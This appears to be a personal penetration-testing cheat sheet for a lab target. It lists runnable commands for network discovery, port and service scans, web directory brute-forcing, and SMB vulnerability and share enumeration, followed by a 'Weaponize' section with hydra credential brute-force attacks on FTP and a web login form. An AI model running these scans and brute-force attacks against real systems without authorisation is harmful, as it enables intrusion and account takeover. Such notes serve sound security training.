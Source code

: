 Target IP either given or discovered via
```sh
netdiscover
```

set up a directory for the target and enter it

```sh
mkdir Target1-192.168.x.x
cd Target1-192.168.x.x
```

## Recon
Start with a quick open port scan
```sh
rustscan 192.168.x.x
```

Follow up with a service scan on those open ports
```sh
nmap -sC -sV -p21,22,80,3306 -v -T5 192.168.x.x -oN Target#Services.nmap
```

### Web Server(s) 80,443,8080
If web server start run the following
```sh
dirb http://192.168.x.x
```

```sh
dirbuster
```
	wordlist is in /usr/share/wordlists/dirtbuster/directory-list-2.3-medium

open up `burpsuite` and run a browser to check out the web servers for saving and reviewing the web request history easily.
### Samba / SMB 445
run nmap scripts for smb services which enumerates shares and checks for eternal blue
```sh
nmap -Pn -p445 -T5 --script=smb-vuln-ms17-010,smb-enum-shares,smb-enum-users,smb-enum-domains,smb-brute --open 192.168.x.x -v -oN smbScripts.nmap
```
## Weaponize
### FTP Servers
Smash it with a hydra
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.x.x ftp
```
### Web Servers
If web login form simultaneously run hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.x.x http-post-form "/admin/login.php:username=^USER^&password=^PASS^:User name or password incorrect"
```
	Change the path of /admin/login.php to whatever you find in burp's request history. The error message in the final : delimited colums also needs to be changed as well to match what is found.
